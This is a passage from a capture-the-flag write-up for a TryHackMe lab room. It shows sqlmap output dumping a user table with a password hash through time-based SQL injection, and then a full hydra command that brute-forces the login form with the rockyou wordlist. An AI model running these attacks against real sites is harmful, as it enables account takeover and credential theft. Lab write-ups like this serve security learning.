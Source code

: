 ```
[12:19:03] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
05f3672ba34409136aa71b8d00070d1b
[12:23:38] [INFO] retrieved: DesKel
[12:24:32] [INFO] retrieved: He is a nice guy, say hello for me
[12:29:47] [INFO] retrieved: Skidy
[12:30:30] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[12:31:04] [INFO] writing hashes to a temporary file '/tmp/sqlmapsblf6_jo19144/sqlmaphashes-m7fbu_h9.txt'
do you want to crack them via a dictionary-based attack? [y/N/q]
Database: THM_f0und_m3
Table: user
[2 entries]
+------------------------------------+----------+
| password                           | username |
+------------------------------------+----------+
| 05f3672ba34409136aa71b8d00070d1b   | DesKel   |
| He is a nice guy, say hello for me | Skidy    |
+------------------------------------+----------+

[12:31:10] [INFO] table 'THM_f0und_m3.`user`' dumped to CSV file '/home/ehogue/.local/share/sqlmap/output/target.thm/dump/THM_f0und_m3/user.csv'
[12:31:10] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/home/ehogue/.local/share/sqlmap/output/results-06152021_1205pm.csv'

[*] ending @ 12:31:10 /2021-06-15/
```

It found the fourth flag, and also the hash of the password for the fifth flag. But I had already solved that one. 

## Easter 5 - Login form

When I got to the login form I tried the username 'DesKel'. Since the page give a different error message when the username exists, it confirmed that there was a user named 'DesKel'. So I decided to try to brute force the password with [hydra](https://github.com/vanhauser-thc/thc-hydra). 

```bash
$ hydra -l DesKel -P /usr/share/wordlists/rockyou.txt -f -u -e snr -t64 -m '/login/:username=^USER^&password=^PASS^&submit=submit:wrong' target.thm http-post-form

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-15 11:29:58
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344402 login tries (l:1/p:14344402), ~224132 tries per task
[DATA] attacking http-post-form://target.thm:80/login/:username=^USER^&password=^PASS^&submit=submit:wrong
[80][http-post-form] host: target.thm   login: DesKel   password: REDACTED
[STATUS] attack finished for target.thm (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-06-15 11:30:09
```
